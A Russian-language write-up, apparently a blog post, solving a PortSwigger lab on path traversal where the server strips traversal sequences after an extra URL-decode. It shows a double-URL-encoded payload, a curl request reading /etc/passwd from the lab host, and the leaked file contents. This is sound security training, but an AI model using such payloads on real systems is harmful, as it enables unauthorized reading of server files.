 ```yaml
---
title: "File path traversal, traversal sequences stripped with superfluous URL-decode"
date: 2025-07-03
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/path-traversal/common-obstacles-to-exploiting-path-traversal-vulnerabilities/file-path-traversal/lab-superfluous-url-decode"
classes: wide
---
```


Эта лабораторная работа содержит уязвимость **Path Traversal** при отображении изображений продуктов.

Приложение блокирует передаваемые параметры со специальными символами. Перед обработкой происходить декодирование `URL` значений.

Необходимо вывести содержимое файла `/etc/passwd`.

```
https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net
```

## Solution

Из задания понятно, что нужно смотреть загрузку фотографий, поэтому сразу беру нужный запрос:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_stripped_with_superfluous_URL-decode/1.png){: height="200" .align-center}

```
https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image?filename=58.jpg
```

Сервер фильтрует специальные символы в запросе. Перед проверкой он декодирует `URL` кодировку. Почему бы тогда не закодировать пейлоад дважды?) Для этого удобно использовать [Cyberchef](https://gchq.github.io/CyberChef/#recipe=URL_Decode(/disabled)URL_Encode(true)URL_Encode(false/breakpoint)&input=Li4vLi4vLi4vZXRjL3Bhc3N3ZA):

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_stripped_with_superfluous_URL-decode/2.png){: height="200" .align-center}

Я получил следующий пейлоад:

```
%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```

Передам его в качестве значения в `GET`-запросе:

```
https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image?filename=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```

Я получил ошибку:

![IMG](/assets/images/PortSwigger/IMG_path_traversal/IMG_traversal_sequences_stripped_with_superfluous_URL-decode/3.png){: height="200" .align-center}

Содержимое можно получить с помощью `curl`:

```bash
cu63:~/ $ curl https://0a870035033fc1ba80e0713b009800d3.web-security-academy.net/image\?filename\=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd                                                  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Лаба решена.
